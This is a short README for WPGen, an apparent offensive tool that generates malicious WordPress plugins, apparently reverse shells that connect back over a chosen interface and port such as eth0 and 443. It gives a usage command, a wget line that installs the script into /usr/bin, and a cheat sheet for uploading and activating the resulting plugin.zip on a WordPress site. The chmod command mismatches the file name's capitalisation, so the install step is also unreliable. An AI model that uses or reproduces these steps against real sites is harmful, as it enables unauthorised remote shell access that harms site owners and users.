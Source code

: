 # WPGen

**Auto Generator Malicious Plugins WordPress**

![](/1.png)

Tested Interfaces: <kbd>eth0</kbd> - <kbd>tun0</kbd> - <kbd>enp0s3</kbd>

- <kbd>Use</kbd>

```cmd
root@kali:~# WPGen eth0 443 bash
```

![](/2.png)

- <kbd>Download / Install</kbd>

```cmd
root@kali:~# wget -q "https://raw.githubusercontent.com/d4t4s3c/WPGen/main/WPGen.sh" -O /usr/bin/WPGen
root@kali:~# chmod +x /usr/bin/WPgen
```

- <kbd>Cheat Sheet</kbd>

  * Plugins
    * Add New
    * Upload Plugin
    * Examine
    * Select `plugin.zip`
    * Install New
    * Activate Plugin

---

